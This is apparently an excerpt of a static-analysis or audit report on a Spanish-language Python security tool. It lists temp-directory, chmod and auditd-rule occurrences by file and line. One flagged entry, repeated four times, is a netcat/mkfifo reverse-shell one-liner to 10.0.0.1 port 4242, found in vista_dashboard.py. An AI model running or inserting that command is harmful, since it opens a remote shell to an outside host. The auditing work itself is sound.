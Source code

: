 - **modelo/modelo_reportes.py:63**
  ```python
  return tempfile.mkdtemp(prefix="ares_reportes_")
  ```

- **modelo/modelo_siem.py:137**
  ```python
  directorio = os.path.join(tempfile.gettempdir(), "ares_siem_logs")
  ```

- **modelo/modelo_utilidades_sistema.py:119**
  ```python
  temp_dir = tempfile.mkdtemp()
  ```

- **vista/vista_dashboard.py:1176**
  ```python
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
  ```

- **vista/vista_dashboard.py:1176**
  ```python
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
  ```

- **vista/vista_dashboard.py:1176**
  ```python
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
  ```

- **vista/vista_dashboard.py:1176**
  ```python
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
  ```

- **vista/vista_login.py:669**
  ```python
  f"mkdir -p /tmp/aresitos_quarantine && chmod 755 /tmp/aresitos_quarantine",
  ```

- **vista/vista_login.py:669**
  ```python
  f"mkdir -p /tmp/aresitos_quarantine && chmod 755 /tmp/aresitos_quarantine",
  ```

### FILE PERMISSIONS
**Ocurrencias**: 23

- **controlador/controlador_fim.py:1264**
  ```python
  subprocess.run(['chmod', '755', directorio], timeout=5)
  ```

- **controlador/controlador_fim.py:1473**
  ```python
  '-a always,exit -F arch=b64 -S chmod -S fchmod -S fchmodat -k fim_permission_changes',
  ```

- **controlador/controlador_fim.py:1473**
  ```python
  '-a always,exit -F arch=b64 -S chmod -S fchmod -S fchmodat -k fim_permission_changes',
  ```
